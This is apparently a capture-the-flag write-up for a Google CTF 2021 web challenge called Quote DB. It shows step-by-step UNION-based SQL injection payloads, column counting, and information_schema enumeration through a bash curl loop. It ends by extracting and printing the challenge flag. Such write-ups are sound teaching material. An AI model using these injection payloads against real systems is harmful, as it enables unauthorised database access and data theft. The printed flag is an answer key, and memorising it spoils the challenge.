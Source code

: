 # Challenge #14 - Quote DB

Category: `web`

## Story

>You don’t manage to disarm the guard, he is quicker than you are. He knocks you out, and when you wake up you’re inside a prison cell, but it doesn’t seem like you’re on a boat anymore, you must be inside the headquarters on the secret island! The cell is claustrophobic, with rusty iron bars and a bed of concrete.<br/><br/>
>In this challenge, you have to find the hidden flag. Good luck!

## Solution

This challenge comes with a URL: https://quotedb-web.2021.ctfcompetition.com/

Let's visit it and see what we're dealing with.

![The Quote DB homepage](quotedb_homepage.png)

There's practically nothing going on here. There's a quote and an author. There's no way to enter new quotes. Trying various sub-pages like "/admin" or "/add_quote" and variations also turns up nothing. There's no JavaScript, either included or embedded in the page source.

One cool thing you can do is use a website or extension like [BuiltWith](https://builtwith.com/) or [Wappalyzer](https://www.wappalyzer.com/) to profile the website and see what technologies it's using. In this case though, all we find is that the website uses Ubuntu, Apache, GCP and some kind of CDN. No hint on whether there's a database or what kind if so.

### Looking for SQL injection

The only piece of interactivity is this:

```
If you'd like to return to this quote, just click here.
```

That shows us that the page supports an `id` [query parameter](https://en.wikipedia.org/wiki/Query_string), like `/?id=2`. Maybe this can be exploited for [SQL injection](https://portswigger.net/web-security/sql-injection)?

Let's try a few things:

```
/?id=-1
Quote not found

/?id=1023821083902112038013122103810923821
Quote not found
```

No integer mis-parsing yet.

```
/?id=abcdefg
```

This is different. It responds with HTTP status 500 and an empty body. Maybe the id isn't properly escaped after all.

```
/?id=' OR 1=1
```

Same. Empty response and HTTP status 500. But no database dump, sadly.

```
/?id=1--
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Strangely, this appears to work, and returns quote 1.

What about this? *(I just guessed that the table is called "quotes")*

```
/?id=1 UNION SELECT * FROM quotes
If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Oh! This isn't sanitized away! However, it returns the first quote, presumably because it selects the top result from the query. Let's verify this by using a nonexistent quote id but still selecting from the `quotes` table:

```
/?id=77 UNION SELECT * FROM quotes
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

It works! It returns the first quote, presumably because the main query was something like this

```sql
SELECT *
FROM quotes
WHERE id = <id>
```

And we turned it into

```sql
SELECT *
FROM quotes
WHERE id = 77 UNION SELECT * FROM quotes
```

### Looking for the flag

Now what? We can already look up any row in the `quotes` table. Enumerating it only finds more quotes.

Maybe the flag is in another table. But how do we find out what tables are out there?

It's [possible](https://www.sqltutorial.org/sql-list-all-tables/) in some engines to directly query metadata tables. We don't know exactly what DB this website is using, but let's try a few known metadata table names.

Before we do so though, we need to determine how many columns are in the quotes database. We can't just `SELECT *` from arbitrary tables or the `UNION` would fail as it can't match up the rows. This is pretty simple to do though - just try selecting static values and increasing the number until we get a success.

```
/?id=77 UNION SELECT 1
HTTP Status 500

/?id=77 UNION SELECT 1,2
HTTP Status 500

/?id=77 UNION SELECT 1,2,3
HTTP Status 200
```

That was quick. There are 3 columns, probably the id, quote and author.

Next, let's look for the existence of metadata tables:

```
/?id=77 UNION SELECT 1,2,3 FROM user_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM dba_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM all_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM information_schema.tables
HTTP Status 200
```

Interesting! That tells us we're dealing with [MySQL](https://www.mysql.com/). Now let's try to select some rows from it. You can Google and find [the docs](https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-tables-table.html) which describe the available columns.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables
"ALL_PLUGINS" - SYSTEM VIEW
```

Okay, not too helpful. We only get the top row so we need some way of selecting a specific row.

Googling "mysql select specific row" leads to [this StackOverflow answer](https://stackoverflow.com/a/10457494) which explains that the `LIMIT` clause allows specifying an offset. Let's try it.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 2,1
"CHARACTER_SETS" - SYSTEM VIEW

/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 3,1
"CHECK_CONSTRAINTS" - SYSTEM VIEW
```

Cool! It works! Let's quickly enumerate all the tables (see [enumerate_tables.sh](enumerate_tables.sh)):

```sh
#!/usr/bin/env bash

for i in {1..1000}; do
  curl -s 'https://quotedb-web.2021.ctfcompetition.com/?id=77%20UNION%20SELECT%20TABLE_CATALOG,TABLE_NAME,TABLE_TYPE%20FROM%20information_schema.tables%20LIMIT%20'${i}',1' | grep '    "' | grep -o '".*"'
done
```

This takes a while, but it eventually finds us two key tables:

```sh
$ ./enumerate_tables.sh
...
"flag"
"quotes"
^C
```

### Extracting the flag

We don't know exactly how many columns are in the `flag` table but let's just try getting them all:

```
/?id=77 UNION SELECT * FROM flag
HTTP Status 500
```

Oops. Let's try adding more columns.

```
/?id=77 UNION SELECT *,0 FROM flag
HTTP Status 200
```

That succeeds and gives us the flag.

```
CTF{little_bobby_tables_we_call_him}
```








